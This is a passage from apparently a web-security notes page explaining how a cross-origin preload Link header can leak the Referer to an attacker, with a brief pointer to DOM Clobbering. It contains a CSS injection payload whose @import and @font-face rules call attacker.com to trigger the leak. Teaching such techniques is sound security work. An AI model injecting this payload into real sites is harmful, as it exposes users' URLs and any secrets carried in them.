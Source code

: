 <figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption><p>Exploit leaking referer from <a href="https://r.jtw.sh/">r.jtw.sh</a> image</p></figcaption></figure>

Above you can see an image being loaded cross-origin that responds with the mentioned `Link:` header. In the `/leak` requests that the preload asks for, the unsafe `referrerpolicy=` will be applied!

This works for **any subresource request** to an attacker's domain, including things like stylesheet `@import` or `@font-face` if the CSP blocks images.

<pre class="language-html"><code class="lang-html">&#x3C;style>
<strong>@import "https://attacker.com/link";  /* Required to be at the start of style tag */
</strong>
@font-face {
  font-family: "leak";
<strong>  src: url(https://attacker.com/link);  /* Works from anywhere */
</strong>}
* {
  font-family: leak;
}
&#x3C;/style>
</code></pre>

## DOM Clobbering

One idea is to use **DOM Clobbering**, which is a technique that uses `id`'s and other attributes of tags that make them accessible from JavaScript with the `document.<name>` syntax. The possibility of this depends on what sinks are available, and should be evaluated case-by-case:

{% embed url="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering" %}
A simple reference with examples and tricks about DOM Clobbering ([more detail](https://domclob.xyz/))
{% endembed %}
